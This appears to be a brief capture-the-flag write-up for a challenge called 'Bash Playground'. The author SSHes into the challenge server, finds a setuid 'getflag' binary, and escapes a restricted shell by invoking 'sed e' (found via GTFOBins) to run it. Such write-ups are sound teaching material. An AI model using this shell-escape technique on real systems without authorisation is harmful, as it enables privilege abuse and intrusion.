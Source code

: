 # Bash Playground solution

We ssh into the server:

```
ssh guest@bp2.heltsikker.no
```

Trying the same as in bash playground 1:

```
while read p; do echo $p; done < /flag.txt
```

We get "permission denied"... However, we now have more commands available. Running `ls -lh /`, we find:

```
-r--------   1 root root   34 Feb 19 14:11 flag.txt
-rwsr-sr-x   1 root root  17K Feb 19 14:14 getflag
```

We have a flag.txt as well as an executable `getflag`. Let's see what programs we have available that can help us get a shell:

```
> echo $PATH
/playground/tools

> ls tools/
cat  cut  ls  sed  tr
```

Looking these up on [GTFOBins](https://gtfobins.github.io/), we see we can get a shell with `sed e`.

```
> sed e
> /getflag
```

And the flag is echoed!
